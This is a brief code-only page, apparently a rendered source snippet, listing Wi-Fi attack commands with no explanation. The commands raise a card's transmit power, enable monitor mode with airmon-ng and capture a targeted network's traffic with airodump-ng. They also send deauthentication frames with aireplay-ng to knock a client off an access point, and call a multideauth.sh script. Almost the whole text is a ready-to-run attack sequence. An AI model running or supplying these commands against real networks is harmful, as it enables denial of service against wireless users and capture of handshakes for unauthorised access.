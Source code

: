 ```
iwconfig
```
```
ifconfig wlan0 down
```
```
iwconfig wlan0 txpower 30
```
```
ifconfig wlan0 up
```
```
sudo airmon-ng start wlan0
```
```
sudo airodump-ng wlan0mon --band abg -w dump
```
```
airodump-ng wlan0mon --band abg -w target --essid 06:0F:A5:2F:13:37 --channel 11
```
---

```
sudo aireplay-ng -0 5 -a ACCESSPOINT-BSSID -c CLIENT-BSSID wlan0mon
```
```
./multideauth.sh
```

